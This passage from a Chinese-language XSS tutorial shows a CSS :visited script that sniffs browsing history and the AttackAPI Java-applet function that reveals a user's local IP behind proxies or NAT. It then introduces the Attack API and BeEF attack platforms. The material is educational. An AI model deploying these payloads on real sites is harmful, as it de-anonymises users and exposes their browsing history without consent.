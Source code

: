     document.write('&lt;style&gt;');
    document.write('#id' + i + ":visited {color:#FF0000;}");
    document.write('&lt;/style&gt;');

    document.body.appendChild(link);
    var color = document.defaultView.getComputedStyle(link, null).getPropertyValue("color");
    document.body.removeChild(link);

    if (color == "rgb(255,0,0)") { //visited
        var item = document.createElement('li');
        item.appendChild(link);
        document.getElementById('visited').appendChild(item);
    } else { //Not visited
        var item = document.createElement('li');
        item.appendChild(link);
        document.getElementById('notvisited').appendChild(item);
    }
}</pre>

## 获取用户真实的IP地址

通过XSS Payload还能获取一些客户端的IP地址。

很多时候，用户电脑使用了代理服务器（比如VPN），或者在局域网中隐藏在NAT之后，网站看到的客户端的地址往往都是内网的出口IP地址，而并非用户电脑真实的本地地址。

Javascript并没有获取本地IP地址的能力，XSS就需要借助第三方软件来完成，例如，客户端安装了Java环境（JRE），那么就能过通过调用Java Applet的接口来获取客户端的本地IP地址。

在XSS攻击框架Attack API之中，就有一个获取本地IP地址的API：
<pre class="lang:js decode:true">AttackAPI.dom.getInternalIP = function() {
    try {
        var sock = new java.net.Socket();
        sock.bind(new java.net.InetSocketAddress('0.0.0.0', 0));
        sock.connect(new java.net.InetSocketAddress(document.domain, (!document.location.port) ? 80 : document.location.port));
        return sock.getLocalAddress().getHostAddress();
    } catch(e) {}
    return '127.0.0.1';
};</pre>
Metasploit引擎曾经展示了一个强大的测试页面，结合了Java Applet、Flash、iTunes、Office Word、QuickTime等第三方软件抓取用户的本地信息，这里是[传送门](http://decloak.net/decloak.html)。

# XSS 攻击平台

## Attack API

[Attack API](https://code.google.com/archive/p/attackapi/)是安全研究者pdp所主导的一个项目，其总结了很多能够直接使用XSS Payload，归纳为API的方式，比如上面提到的获取客户端本地信息的API。

## BeEF

[BeEF](http://beefproject.com/)有一个控制后台，攻击者可以在后台控制前端的一切。
